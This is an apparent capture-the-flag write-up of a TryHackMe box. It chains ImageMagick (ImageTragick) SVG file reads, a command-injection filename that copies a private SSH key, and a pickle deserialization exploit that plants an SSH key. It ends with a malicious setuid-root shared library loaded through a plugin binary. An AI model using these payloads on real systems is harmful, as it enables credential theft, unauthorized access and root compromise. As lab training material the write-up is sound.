This box is rated hard difficulty on THM and is apart of the advanced track in the Love at First Breach '26 event. It involves us getting LFI/RCE in the website's implementation of ImageMagick to create pictures. Then, we abuse a python script running against files to execute serialized payloads in order to echo our SSH key into another user's directory. Finally, a binary with the SUID bit set could be used to load a malicious library as root user, in turn executing arbitrary commands leading to a root shell.

_Go deeper into TryHeartMe's web of lies._

## Scanning & Enumeration
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP yields nothing.

```
$ sudo nmap -p22,1337 -sCV 10.65.150.183 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-18 17:26 CST
Nmap scan report for 10.65.150.183
Host is up (0.043s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d9:97:c4:a9:5a:9a:87:ee:1a:86:cf:1f:98:48:88:12 (ECDSA)
|_  256 f2:19:d7:8d:35:43:f7:51:84:a9:06:2c:0f:b3:f2:44 (ED25519)
1337/tcp open  http    Werkzeug httpd 3.1.5 (Python 3.12.3)
|_http-title: CupidCards - Valentine's Day Card Generator
|_http-server-header: Werkzeug/3.1.5 Python/3.12.3
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.91 seconds
```

There are just two ports open:
- SSH on port 22
- An Python (Werkzeug) web server on port 1337 

Not much to do with that particular version of OpenSSH without credentials so I fire up Gobuster to search for subdirectories/subdomains in the background before heading over to the website. 

```
$ gobuster dir -u http://10.65.150.183:1337/ -w /opt/SecLists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.65.150.183:1337/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/generate             (Status: 405) [Size: 153]
```

Checking out the landing page shows an upload form where we can select images in order to create a custom valentine's card. There are also a few text fields which may be prone to some dangerous vulnerabilities.


Attempting to upload files other than valid PNG, JPG, or GIFs blocks our request, throwing an error that says invalid filename format. I tried playing with magic bytes and extra extensions to bypass this filter but couldn't get anything to work.

Next, I wanted to get a successful request to see what we could exploit regarding the text fields and what happens with our card once created.



Again, I test for HTML injection in hopes that one of the fields is vulnerable to Cross-Site Scripting, however most special characters and operators get filtered as well.

Hovering the download button shows that we're able to retrieve files from the `/cards/` directory upon creation, however the string appended seems randomly generated so we probably won't have any luck with an IDOR vulnerability there.


Since my directory scans haven't returned anything other than this `/generate` API endpoint, It's safe to say we must exploit this as our first step. Testing for any type of LFI or command injection in a captured POST request shows that everything gets sanitized properly upon upload and we already know that only valid images work here as well.

## ImageTragick Vulnerabilities
I focus all of my attention on how the valentine's card gets generated by the website. We know it's running Python in order to carry out site functions and that our input gets overlayed to the chosen image upon uploads. This means that it's most likely using a Python library for that step which may just be vulnerable. A bit of research discloses that some popular implementations for Python are Pillow, OpenCV, and ImageMagick. Considering the ladder was used in one of the boxes for the first part of the LAFB event, I'll proceed with the notion that this is the one in play.

One of the most notorious vulnerabilities for this library is a collection of exploits known as [ImageTragick](https://www.exploit-db.com/exploits/39767). Multiple vulnerabilities found in ImageMagick's image decoder showed that they could lead to potential RCE, LFI on the filesystem, and SSRF requests to generate HTTP GET, or FTP requests.

### LFI/RCE via SVG files and Filename Parameter
Some more digging reveals that since the library supports different filetypes like `.svg` or `.mvg`, attackers could supply specially crafted requests to include arbitrary files to be displayed in the image. This all stems from [CVE-2016-3714](https://nvd.nist.gov/vuln/detail/CVE-2016-3714), which explains that Insufficient filtering for the supplied filename is passed to the delegator's command, ultimately leading to vulnerabilities like these.

As a test run, I want to see if we're able to read files such as `/etc/passwd` or something like `app.py`. I end up using the exploit.svg payload under the official [ImageTragick](https://imagetragick.com/) page. By changing the <image xlink line to point towards local files on the machine, we can load them as our picture.

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="640px" height="480px" version="1.1"
xmlns="http://www.w3.org/2000/svg" xmlns:xlink=
"http://www.w3.org/1999/xlink">
<image xlink:href="text:/etc/paswd"
x="0" y="0" height="640px" width="480px"/>
</svg>
```

Simply slapping that payload in a filename supported by the site and uploading it proves that this does work.



For larger files, we can size up the image by altering the width/height pixel values in our payload.

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1420px" height="1800px" version="1.1"
xmlns="http://www.w3.org/2000/svg" xmlns:xlink=
"http://www.w3.org/1999/xlink">
<image xlink:href="text:/etc/paswd"
x="0" y="0" height="640px" width="480px"/>
</svg>
```



_Note: we can also append an index value like [0] or [1] to our filename in order to force the image loader to read certain pages of a document in case they're too long for a singular page._

Zooming in to parse the output shows that besides root, there are two other users on the box named Cupid and Aphrodite. I repeat the same process to read the source code under app.py, however this really just discloses how the cards are generated and what characters are being filtered. Since we know valid usernames on the box, maybe one of them has a readable SSH key we can use to login with.

Once again, I repeat this step to try and read private SSH keys under each account's home directory but don't get a hit back on `id_rsa`. We are able to read the `authorized_keys` file which gets cut off, however it still shows that cupid has a pubkey uploaded to here.

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="2000px" height="1800px" version="1.1"
xmlns="http://www.w3.org/2000/svg" xmlns:xlink=
"http://www.w3.org/1999/xlink">
<image xlink:href="text:/home/cupid/.ssh/authorized_keys"
x="0" y="0" height="1800px" width="2000x"/>
</svg>
```


## Reading Cupid's PrivKey
Retrying this method with a few more names shows that his private key is saved under the name cupid.priv instead of something more generic.



_Note: I used Snipping Tool's text actions feature to copy/paste this output instead of having to manually type it out._

A much much better way would actually be to read certain file contents to another file within the `/cards/` directory so that we can read them directly from our browser as text. This allows us to grab the actual text from the server instead of having to mess around with embedded image texts. 

```
POST /generate HTTP/1.1
Host: 10.65.150.183:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary16b76e8051ab307e90424fd02a6a970b
Content-Length: 2804544
Origin: http://10.65.150.183:1337
Connection: keep-alive
Referer: http://10.65.150.183:1337/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundary16b76e8051ab307e90424fd02a6a970b
Content-Disposition: form-data; name="photo"; filename="x;cat /home/cupid/.ssh/cupid.priv>cards/output.txt;#.jpg"
Content-Type: image/jpeg
```


I didn't know this was possible until after completing the box so, shout out to [Djalil Ayed](https://github.com/djalilayed) for sharing this method. I recommend checking his walkthroughs for any help.

## Privilege Escalation
Awesome, now we can login over SSH to get a shell and start internal enumeration for privilege escalation. At this point we can grab the first flag under our home directory too.



I notice that we're in the lovers group, however there doesn't seem to be any important files or directories owned by that group. We are also denied access to Aphrodite's home directory.



I also find that we're able to read a log file for the heartbreak process which shows that it's being executed regularly.

```
cupid@tryhackme-2404:/opt/heartbreak/matcher$ cat /var/log/heartbreak/matcher.log
2026-02-11 15:16:28,233 - Match: cupid -> eros (score: 100)
2026-02-11 15:16:28,233 - Processed and removed: /var/spool/heartbreak/inbox/demo.love
```

Checking the usual routes for privesc shows a binary with the SUID bit set named heartstring. This is owned by root but only accessible to members of the hearts group, so we'll have to save this later and see if Aphrodite can use it.



### Copying SSH Key via Pickle Deserialization
Whilst checking which files that we had permissions to read that were also owned by Aphrodite, I discover a strange python script under `/opt/heartbreak/matcher/` which looks to be obfuscated in Russian and Chinese


Translating this script resolves to:

```
import struct
import hashlib

# Constants
MAGIC_HEADER = b'\x89HBP'
VERSION = 2

# Dynamically import pickle.loads
MODULE_NAME = "pickle"
LOAD_FUNCTION_NAME = "loads"
pickle_loads = getattr(__import__(MODULE_NAME), LOAD_FUNCTION_NAME)

def verify_header(data):
    """
    Verifies that the provided data is at least 6 bytes long.
    """
    if len(data) < 6:
        return False
    return True

def decode_notes(data):
    """
    If input is bytes, attempts to deserialize it using pickle.loads.
    If input is not bytes, returns its string representation.
    Returns None on failure.
    """
    if not isinstance(data, bytes):
        return str(data)
    try:
        return pickle_loads(data)
    except Exception:
        return None

def encode_notes(data):
    """
    Serializes the given object using pickle.dumps and returns bytes.
    """
    DUMP_FUNCTION_NAME = "dumps"
    pickle_dumps = getattr(__import__(MODULE_NAME), DUMP_FUNCTION_NAME)
    return pickle_dumps(data)
```

This script serializes and deserializes Python objects using the pickle library with a minimal length check, and dynamically loads the pickle functions to obscure its intent. Because `pickle.loads()` executes code during deserialization, feeding it untrusted data will let us run arbitrary code passed in as input.

Along with this very unsecure script is a `match_engine.py` script, which is ends up scanning the `/var/spool/heartbreak/inbox/` for files containing the `.love` extension. 

```
#!/usr/bin/env python3

import msgpack
import hbproto
import os
import glob
import hashlib
import sys
import time
import logging

logging.basicConfig(
    filename="/var/log/heartbreak/matcher.log",
    level=logging.INFO,
    format="%(asctime)s - %(message)s"
)

SPOOL_DIR = "/var/spool/heartbreak/inbox"
RESULTS_DIR = "/home/aphrodite/matches"

def score_match(data):
    score = 0
    desire = data.get("desire", "")
    compat = data.get("compat", {})

    score += min(len(desire), 100)

    if isinstance(compat, dict):
        if compat.get("sign"):
            score += 10
        if compat.get("element"):
            score += 10
        if compat.get("planet"):
            score += 10

    return min(score, 100)

def log_match(data, score, notes=None):
    sender = data.get("from", "unknown")
    target = data.get("to", "unknown")
    logging.info(f"Match: {sender} -> {target} (score: {score})")

    result_path = os.path.join(
        RESULTS_DIR,
        f"{sender}_{target}_{int(time.time())}.result"
    )
    try:
        with open(result_path, "w") as f:
            f.write(f"From: {sender}\n")
            f.write(f"To: {target}\n")
            f.write(f"Score: {score}\n")
            f.write(f"Time: {time.strftime('%Y-%m-%d %H:%M:%S')}\n")
            if notes:
                f.write(f"Notes: {notes}\n")
    except Exception:
        pass

def process_file(fpath):
    with open(fpath, "rb") as f:
        raw = f.read()

    try:
        data = msgpack.unpackb(raw, raw=False)
    except Exception:
        logging.warning(f"Invalid MessagePack: {fpath}")
        os.unlink(fpath)
        return

    if not isinstance(data, dict):
        os.unlink(fpath)
        return

    required = ("from", "to", "desire", "compat")
    if not all(k in data for k in required):
        logging.warning(f"Missing fields in {fpath}")
        os.unlink(fpath)
        return

    if not isinstance(data["desire"], str) or len(data["desire"]) < 50:
        logging.warning(f"Invalid desire field in {fpath}")
        os.unlink(fpath)
        return

    notes = None
    if "notes" in data and isinstance(data["notes"], bytes):
        try:
            notes = hbproto.decode_notes(data["notes"])
        except Exception:
            notes = None
    elif "notes" in data and isinstance(data["notes"], str):
        notes = data["notes"]

    score = score_match(data)
    log_match(data, score, notes)

    os.unlink(fpath)
    logging.info(f"Processed and removed: {fpath}")

def main():
    pattern = os.path.join(SPOOL_DIR, "*.love")
    for fpath in sorted(glob.glob(pattern)):
        try:
            process_file(fpath)
        except Exception as e:
            logging.error(f"Error processing {fpath}: {e}")
            try:
                os.unlink(fpath)
            except Exception:
                pass

if __name__ == "__main__":
    main()
```

If one is found, it then unpacks the file using msgpack. The important thing here is that if the notes field within the file is written as bytes, the script will call that decode_notes function from the `hbproto.py` script which deserialized our input in return.

So in order to exploit this we need to create a malicious file ending in `.love` and have the notes field contain our serialized payload which will be executed. I vibecode a quick script that will echo the private key gathered from earlier into Aphrodite's `authorized_keys` file so we're able to SSH onto the box as her. I should note that we need to refer to the `/opt/heartbreak/matcher/PROCESSING.md` file in order to meet all format requirements as well. 

```
import os
import pickle
import msgpack

class privesc(object):
    def __reduce__(self):
        cmd = "mkdir -p /home/aphrodite/.ssh &&  echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJI2BElPIcoG98ulZ3uuWJXR77CSYIs6u/g10Fhe76nv cupid@cupidcards' >> /home/aphrodite/.ssh/authorized_keys"
        return (os.system, (cmd,))

notes_payload = pickle.dumps(privesc())

data = {
    "from": "cupid",
    "to": "aphrodite", 
    "desire": "A" * 50,
    "compat": {
        "sign": "leo",
        "element": "water",
        "planet": "jupiter"
    },
    "notes": notes_payload
}

packed = msgpack.packb(data, use_bin_type=True)

with open("exploit.love", "wb") as f:
    f.write(packed)

print("Completed!")
```

I use the scp command to copy our `exploit.love` file into `/var/spool/heartbreak/inbox/` and let it run.

```
scp -i cupid.priv exploit.love cupid@10.65.150.183:/var/spool/heartbreak/inbox/.
```

### Loading Malicious lib with Heartstring
Checking the `matcher.log` file again shows that our payload was processed and we can now login as Aphrodite. At this point, we can grab the second flag under her home dir too.



Now we can move to escalating privileges to root user via that heartstring binary found earlier. Checking our privileges, it seems that we are apart of the hearts group and can also write to the plugins' `manifest.json` file.



A test run with the binary shows a few options that we can use as arguments, most notably being the plugin one which allows us to load plugins.



Since we have access to write to the manifest file and can run this binary as root, we can effectively execute commands as root user by loading a malicious library to be utilized.

I create a simple lib that will copy bash to the `/tmp` directory and give it an SUID bit so we're able to spawn a root shell.

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init() {
        setuid(0);
        setgid(0);
        system("cp /bin/bash /tmp/bashy; chmod +s /tmp/bashy");
}
```

Next, let's compile it as a shared library using gcc:

```
gcc -shared -fPIC -o privesc.so privesc.c
```

Now that we have prepared that, we can see that the `manifest.json` loads in libraries using the SHA256 hash value of it. Simply changing one of the valid hashes inside to match ours will allow us to load the malicious lib when calling that plugin. Looking at the `/opt/heartbreak/plugins/` directory, we can't directly write to the `manifest.json` file, however we are apart of the hearts group that has access over the directory it's in. I end up using a cat command with the EOF operator to overwrite the file with a new one containing our SHA256sum.

```
cat > /opt/heartbreak/plugins/manifest.json << 'EOF'
{
  "plugins": {
    "rosepetal": {
      "hash": "[HASH_OF_MALICIOUS_LIBRARY]",
      "description": "Rose petal animation plugin",
      "version": "1.0"
    },
    "loveletter": {
      "hash": "b47a17238fb47b6ef9d0d727453b0335f5bd4614cf415be27516d5a77e5f4643",
      "description": "Love letter formatter plugin",
      "version": "1.0"
    }
  }
}
EOF
```

We can rename our lib to be `rosepetal.so` or whichever one you replaced earlier and then use the binary to load it from our home directory. Attempting to run the it now shows that an integrity check failed which is blocking us from loading it.



That's a bit of a problem as we won't be able use our new plugin unless those two strings are matching. Spending some more time enumerating the system didn't grant me any more files that would help us so I move onto figuring out how the binary checks the hashes.

Whilst using the Strings utility on the binary, I find this `--dev` flag which looks to be used in order to load local plugins.



Finally, running the same command to load our malicious plugin along with that option works to execute the command in our library and lets us spawn a root shell using the bash clone under `/tmp`.



Grabbing the last flag under the root directory completes this challenge. The advanced track is pretty hard but I'm learning a ton through it so thanks to everyone who worked on creating it for us. I hope this was helpful to anyone following along or stuck and happy hacking!
